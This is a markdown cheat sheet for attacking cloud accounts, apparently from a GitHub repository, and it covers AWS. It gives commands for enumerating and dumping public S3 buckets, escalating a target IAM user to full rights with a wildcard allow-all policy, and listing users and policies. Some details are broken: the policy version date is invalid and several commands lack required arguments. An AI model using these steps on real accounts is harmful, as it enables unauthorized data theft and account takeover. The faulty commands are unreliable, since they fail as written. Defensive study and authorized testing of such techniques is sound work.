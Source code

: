 ## Cloud hacking cheat sheet

### Amazon

#### Install awscli
```sh
pip3 install awscli
```

#### S3 Bucket Enumeration

##### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
##### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

##### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

##### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

#### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

#### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

#### List users
```sh
aws iam list-users
```

#### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

#### List user policies
```sh
aws iam list-user-policies
```

#### List role policies
```sh
aws iam list-role-policies
```

#### List froup policies
```sh
aws iam list-group-policies
```

#### Create user
```sh
aws iam create-user
```



[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
